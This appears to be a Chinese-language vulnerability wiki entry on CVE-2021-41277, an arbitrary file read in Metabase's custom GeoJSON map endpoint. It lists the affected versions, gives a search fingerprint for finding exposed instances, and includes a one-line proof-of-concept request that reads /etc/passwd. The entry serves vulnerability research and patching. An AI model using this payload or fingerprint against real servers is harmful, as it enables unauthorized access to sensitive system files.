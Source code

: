 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

<a-checkbox checked>metabase version < 0.40.5</a-checkbox></br>

<a-checkbox checked>metabase version >= 1.0.0, < 1.40.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="metabase"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347.png)

验证POC

```python
/api/geojson?url=file:/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1637464214932-3531a00c-8968-4104-9f6d-a0962cdef98e.png)